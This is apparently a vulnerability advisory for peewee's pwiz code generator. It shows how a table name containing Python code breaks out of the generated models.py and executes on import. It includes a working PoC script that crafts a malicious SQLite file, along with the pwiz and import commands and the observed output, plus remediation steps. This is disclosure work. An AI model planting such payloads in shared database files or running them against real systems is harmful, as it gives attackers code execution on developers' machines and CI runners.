

# Code Injection via Unescaped Database Metadata in pwiz Leads to Import-Time RCE in peewee

| Field | Value |
|---|---|
| Project | [coleifer/peewee](https://github.com/coleifer/peewee) |
| Vulnerability Type | Code Injection / Remote Code Execution (CWE-94) |
| Severity | High — CVSS 3.1 Base Score: 8.8 |
| CVSS Vector | `AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H` |
| Affected Versions | All releases, including the current PyPI release 4.5.2 and master @ `db793d7` (both verified) |
| Authentication | None (victim-run tool; requires a database whose metadata the attacker controls) |

---

## Summary

`pwiz`, peewee's official schema-introspection code generator (shipped inside the PyPI package, invoked as `python -m pwiz`), interpolates database metadata — table names, column names, index names, defaults — into the generated `models.py` without any escaping. A table name containing Python source code breaks out of the string literal at `pwiz.py:117` and is embedded verbatim in the generated module. The payload executes with the victim's privileges the moment the generated file is imported, which is the standard next step of every pwiz workflow (`python -m pwiz ... > models.py` then `from models import ...`).

## Details

`pwiz.py` generates the `Meta` class of each model by string formatting the raw introspected table name:

```python
# pwiz.py:117
print('        table_name = \'%s\'' % table)
```

`table` is the table name returned by the database introspector, used as-is. There is no identifier validation and no quoting beyond the surrounding `'%s'` literal. A table named

```
pwn'; __import__('os').system('id > /tmp/pwned_table'); x='
```

produces the following line in the generated `models.py`:

```python
table_name = 'pwn'; __import__('os').system('id > /tmp/pwned_table'); x=''
```

The first statement assigns the intended table name, and the injected `__import__('os').system(...)` runs during import. The same class of injection is reachable through other metadata fields that pwiz formats into the output (database name, column names, column defaults, `related_name` values), so any schema element an attacker can name becomes an injection point. SQLite is the most convenient delivery vehicle (a single malicious `.db` file), but any supported database whose schema the attacker can influence works the same way.

## PoC

**Real-environment reproduction** (peewee master @ `db793d7` checked out and run locally for this test, peewee installed as a real dependency):

```bash
# 1. Create a SQLite database whose table name is a Python payload
python3 - <<'EOF'
import sqlite3
payload = "pwn'; __import__('os').system('id > /tmp/pwned_table && whoami >> /tmp/pwned_table'); x='"
con = sqlite3.connect('evil.db')
con.execute(f'CREATE TABLE "{payload}" (note TEXT)')
con.close()
EOF

# 2. Victim workflow: introspect the database with the official pwiz CLI
python -m pwiz -e sqlite evil.db > models_generated.py

# 3. Standard next step: import the generated models
python -c "import models_generated"

# 4. The payload executed during import
cat /tmp/pwned_table
```

Observed result:

```
$ head models_generated.py
class PwnImportOssystemidtmppwnedTablewhoamitmppwnedTablex(BaseModel):
    note = TextField(null=True)

    class Meta:
        table_name = 'pwn'; __import__('os').system('id > /tmp/pwned_table && whoami >> /tmp/pwned_table'); x=''

$ python -c "import models_generated"     # completes without error

$ cat /tmp/pwned_table
uid=501(0xgenesi) gid=20(staff) groups=20(staff),12(everyone),...
0xgenesi
```

`os.system()` executed during the import of the pwiz-generated module. The generated code is valid Python, imports cleanly, and behaves normally afterwards, so a victim has no signal that anything happened.



---

## Impact

An attacker who controls the metadata of any database that a developer, analyst, or CI pipeline introspects with pwiz gains arbitrary code execution in that environment:

- **Malicious database files** — SQLite `.db` files are routinely shared as app fixtures, sample data, bug-report attachments, backups, and CTF/downloaded datasets; opening one with pwiz executes the payload.
- **Shared / multi-tenant databases** — any application feature that lets users name tables (custom reports, CMS table creators, metastores) plants the payload in a schema that an operator later introspects.
- **CI/CD pipelines** — automated codegen steps that run pwiz against untrusted dumps or restored backups execute the payload with runner privileges, exposing pipeline secrets (cloud credentials, signing keys, package-registry tokens).

Execution happens at `import` time of the generated file, i.e. in the developer's shell, editor tooling, or CI runner — one step before any application code even uses peewee.

### Remediation

1. Escape every piece of database metadata interpolated into generated code. Emit identifiers through a safe encoder (e.g. embed raw names as `repr()`-quoted strings decoded at runtime, or base64-encoded constants) instead of raw `'%s'` interpolation, so no metadata byte can terminate the string literal or append a statement.
2. Reject non-representable identifiers explicitly: when a table/column name contains characters outside the safe identifier alphabet, fail the generation with a clear error (or emit an escaped alias) rather than formatting it into code.
3. Apply the same escaping to all metadata-driven output paths in pwiz — database name, column names, defaults, `related_name`, and index names — not only `table_name`, and add a regression test that generates models from a database containing `';`-bearing names.
